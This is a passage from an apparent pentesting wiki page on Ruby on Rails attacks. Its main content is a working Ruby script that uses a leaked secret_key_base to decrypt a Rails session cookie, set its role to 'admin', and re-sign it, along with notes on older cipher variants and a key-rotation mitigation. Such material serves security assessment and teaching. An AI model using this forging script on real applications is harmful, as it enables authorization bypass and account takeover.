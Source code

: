 - Mitigation: upgrade Rack; ensure `:root` only points to a directory of public files and is explicitly set.

## Forging/decrypting Rails cookies when `secret_key_base` is leaked

Rails encrypts and signs cookies using keys derived from `secret_key_base`. If that value leaks (e.g., in a repo, logs, or misconfigured credentials), you can usually decrypt, modify, and re-encrypt cookies. This often leads to authz bypass if the app stores roles, user IDs, or feature flags in cookies.

Minimal Ruby to decrypt and re-encrypt modern cookies (AES-256-GCM, default in recent Rails):
```ruby
require 'cgi'
require 'json'
require 'active_support'
require 'active_support/message_encryptor'
require 'active_support/key_generator'

secret_key_base = ENV.fetch('SECRET_KEY_BASE_LEAKED')
raw_cookie = CGI.unescape(ARGV[0])

salt   = 'authenticated encrypted cookie'
cipher = 'aes-256-gcm'
key_len = ActiveSupport::MessageEncryptor.key_len(cipher)
secret  = ActiveSupport::KeyGenerator.new(secret_key_base, iterations: 1000).generate_key(salt, key_len)
enc     = ActiveSupport::MessageEncryptor.new(secret, cipher: cipher, serializer: JSON)

plain = enc.decrypt_and_verify(raw_cookie)
puts "Decrypted: #{plain.inspect}"

# Modify and re-encrypt (example: escalate role)
plain['role'] = 'admin' if plain.is_a?(Hash)
forged = enc.encrypt_and_sign(plain)
puts "Forged cookie: #{CGI.escape(forged)}"
```
Notes:
- Older apps may use AES-256-CBC and salts `encrypted cookie` / `signed encrypted cookie`, or JSON/Marshal serializers. Adjust salts, cipher, and serializer accordingly.
- On compromise/assessment, rotate `secret_key_base` to invalidate all existing cookies.

## See also (Ruby/Rails-specific vulns)

- Ruby deserialization and class pollution:
  {{#ref}}
  ../../pentesting-web/deserialization/README.md
  {{#endref}}
  {{#ref}}
  ../../pentesting-web/deserialization/ruby-class-pollution.md
  {{#endref}}
  {{#ref}}
  ../../pentesting-web/deserialization/ruby-_json-pollution.md
  {{#endref}}
- Template injection in Ruby engines (ERB/Haml/Slim, etc.):
  {{#ref}}
  ../../pentesting-web/ssti-server-side-template-injection/README.md
  {{#endref}}
